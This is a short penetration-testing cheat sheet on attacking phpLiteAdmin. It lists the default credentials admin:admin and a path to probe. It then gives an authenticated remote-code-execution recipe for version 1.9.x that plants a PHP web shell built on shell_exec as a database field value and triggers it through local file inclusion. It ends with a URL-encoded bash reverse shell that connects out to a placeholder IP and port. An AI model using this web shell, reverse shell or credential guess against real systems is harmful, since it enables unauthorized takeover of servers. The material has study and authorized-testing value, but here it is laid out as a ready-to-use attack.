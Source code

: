 # phpliteadmin

## Default Creds

```
admin:admin
```

## Interesting Paths

```bash
/db/phpliteadmin.php
```

## v1.9.x RCE (Authenticated)

```
https://www.exploit-db.com/exploits/24044
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

1. create db kashz.php
2. note path to run it later.
3. create table kashz with 1 field
4. field name: shell | field type: TEXT | default value: shellcode
5. use LFI to run kashz.php&cmd=id

# need to url encode the rev shell.
bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/IP/PORT%200%3E%261%27
```
